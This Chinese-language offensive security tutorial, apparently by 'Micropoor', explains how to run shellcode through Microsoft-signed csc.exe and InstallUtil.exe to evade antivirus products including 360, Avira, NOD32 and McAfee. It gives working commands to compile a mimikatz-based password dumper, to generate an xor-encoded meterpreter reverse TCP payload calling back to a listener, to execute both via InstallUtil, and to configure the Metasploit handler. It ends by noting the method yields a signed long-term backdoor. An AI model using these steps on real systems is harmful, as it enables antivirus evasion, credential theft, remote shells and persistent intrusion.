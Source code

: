 payload 分离免杀思路第一季是专门针对 x32 系统，以及针对 xp 包括以下版本。而在实战中，目标机器多为 Windows7 以上版本。而服务器以 x64 位居多。在第一季中，借助了非微软自带第三方来执行 Shellcode，这一季采取调用微软自带来执行 Shellcode，这里就会有一个好处，调用自带本身一定就会有微软的签名，从而绕过反病毒软件。

### 介绍相关概念：
Windows 自 Windows XP Media Center Edition 开始默认安装 NET Framework，直至目前的 Windows 10，最新的默认版本为4.6.00081.00。随着装机量，最新默认安装版本为4.7.2053.0。

### csc.exe：
C# 的在 Windows 平台下的编译器名称是 Csc.exe，如果你的 .NET FrameWork SDK 安装在 C 盘，那么你可以在 `C:\WINNT\Microsoft.NET\Framework\xxxxx` 目录中发现它。为了使用方便，你可以手动把这个目录添加到 Path 环境变量中去。用 Csc.exe 编译 HelloWorld.cs 非常简单，打开命令提示符，并切换到存放 test.cs 文件的目录中，输入下列行命令: `csc /target:exe test.cs`将 Ttest.cs 编译成名为 test.exe 的 console 应用程序
```bash
//test.cs
using System; 
class TestApp 
{
    public static void Main()
    {
    Console.WriteLine("Micropoor!");
    }
}
```

### InstallUtil.exe：
微软官方介绍如下：
> The Installer tool is a command-line utility that allows you to install and uninstall server resources by executing the installer components in specified assemblies. This tool works in conjunction with classes in the System.Configuration.Install namespace.
> This tool is automatically installed with Visual Studio. To run the tool,use the Developer Command Prompt (or the Visual Studio Command Prompt in Windows7). For more information, see Command Prompts.
https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool

关于两个文件默认安装位置：（注意x32，x64区别）
```bash
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
```
文章采取2种demo来辅助本文中心思想。

### demo1：

以抓密码为例：测试环境：目标A机安装了 360 套装。目标机 B 安装了小红伞，NOD32。目标机安 C 装了麦咖啡。  
生成秘钥：  
![](media/cf8406093e5dbf031342ac48beecbb20.jpg)

执行：
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
C:\Users\Johnn\Desktop\mimi.cs
```
![](media/b24b55a30609a64e9ae6eedd59669600.jpg)

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe
```
![](media/54e053d6ba6b7ddf3ecff38b2e4b554c.jpg)  

![](media/14d88766fa1337b2a7a1f4fcd0e41e7b.jpg)

### demo2：
以msf为例：  
生成shllcode
```bash
msfvenom --platform Windows -a x64 -p windows/x64/meterpreter/reverse_tcp_uuid LHOST=192.168.1.5 LPORT=8080 -b '\x00' -e x64/xor -i 10 -f csharp -o ./Micropoor.txt
```
![](media/60dc9d8d0c0d3716c0111382fda0880f.jpg)  

![](media/06b4768ab7fb03e67d866bfa3535a8d0.jpg)

替换shellcode。  
![](media/1981b698893f18b579b053c1c47cbbb5.jpg)

编译：
```bash
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe /unsafe /platform:x64 /out:Micropoor.exe M.cs
```
![](media/44a48a754a1077975cf9f7245474d6f4.jpg)

运行：
```bash
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```
![](media/2e2468278724012a07b672ba28994b41.jpg)

**注：在实际测试的过程，起监听需要配置一些参数，防止假死与假session。**  

```bash
msf exploit(multi/handler) > set exitonsession false 
exitonsession => false
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) >
msf exploit(multi/handler) > set Stageencoder x64/xor 
Stageencoder => x64/xor
msf exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false
msf exploit(multi/handler) > exploit -j -z
```
![](media/e0546970d950f42b600bc2c6822981e2.jpg)

上线：  
![](media/c77a11ea1cd8acacd645ffd057050d18.jpg)


mimi.cs 953.71 KB
shllcode.cs


>   后者的话：该方法可以做一个带签名的长期后门。
> 
>   Micropoor
